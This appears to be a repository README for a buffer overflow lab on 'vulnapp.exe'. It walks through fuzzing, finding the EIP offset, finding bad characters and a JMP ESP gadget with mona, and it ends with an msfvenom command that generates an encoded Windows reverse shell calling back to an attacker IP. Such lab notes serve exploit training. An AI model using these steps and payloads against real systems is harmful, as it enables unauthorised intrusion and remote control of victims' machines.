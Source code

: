 # Buffer Overflow methodology

Steps to be followed for the machine solution;

Note: If after each debug operation performed, the application has become unresponsive; Immunity Debugger should be closed first, then the "vulnapp.exe" application should be restarted, and Attach and Run should be done on Immunity Debugger.

## 1. Segmentation fault : 1_segfault.py

Send enough length string for victim system crash

Note the offeset in ``PARAMETERS.py``, in the variable ``offset_eip``.
   
## 2. Find the offset : 2_find_offset.py:

Generate the pattern (adapt the buffer lenght) :

        /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <String_Length>

        buf += ("<PATTERN>")

Put the output into the variable ``buf`` in ``2_find_offset.py`` & send it.

Once the app crashes, note down the value of the EIP register (which is the address of the next operation to be executed).




If needed : convert the EIP value to ASCII : echo "<EIP_value>" | xxd -r -p

Find the offset at which the sequence is met in the pattern :

        /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP_value>

Or, type this in Immunity Debugger : `!mona findmsp`.

Note the value of the EIP offet in the variable ``offset_eip`` in ``PARAMETERS.py``, and the value of the ESP offset in the variable ``offset_esp``.

## 3. Control the EIP : 3_confirm_offset.py

Execute this script as is.

In Immunity Debugger, make sure that
   - **BBBB** in the EIP (in hex, so ``42424242``)
   - **CCCCDDDDD.....** is written in what ESP points to

## 4. Find the bad chars : 4_find_badchars.py

Send it to the application

In Immunity Debugger, make mona create a list of badchars : 
        !mona bytearray –cpb “\x00”

Compare this file with the stack contents :
        !mona compare -a ESP -f <file_with_bad_chars>
        !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>

In the mona output, ``Possibly bad chars`` are output.
Put them in the ``badchars`` array in ``PARAMETERS.py``.

## 5. Confirm badchars & find a JMP ESP instruction : 5_find_jmp_esp.py

### a. Confirm badchars

Make sure the badchars identified are mentionned in the ``PARAMETERS.py`` file.

Execute the script.

Re-generate a badchar sequence on mona : 

        !mona bytearray -cpb "\x00\x04\x05\xA2\xA3\xAC\xAD\xC0\xC1\xEF\xF0"

Compare the bytearray and the buffer to make sure they are the same.
That will mean that no new badchar have been detected :

        !mona compare -a ESP -f <file_with_bad_chars>
        !mona compare -a <WHATEVER ADDRESS> -f <file_with_bad_chars>


### b. Find a JMP ESP

        !mona jmp -r esp -cpb "<bad_chars>" formatted like this : "\x00\x01"

Put the address returned in the variable ``ptr_jmp_esp`` in ``PARAMETERS.py``

Launch the script

Check that \xCC values are well in what ESP points to


## 6. Pop calc : 6_pop_calc.py

We will also move ESP up in the stack ("SUB ESP,0x10)
This is to avoid the ESP overwrite by the encoder

        msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
        CMD=calc.exe EXITFUNC=thread

## 7. Create shellcode : 7_exploit.py

        msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Attacker_Port> \
        -f py -b '<badchars>' -e x86/shikata_ga_nai -var-name shellcode

   Insert it in the 7_exploit.py




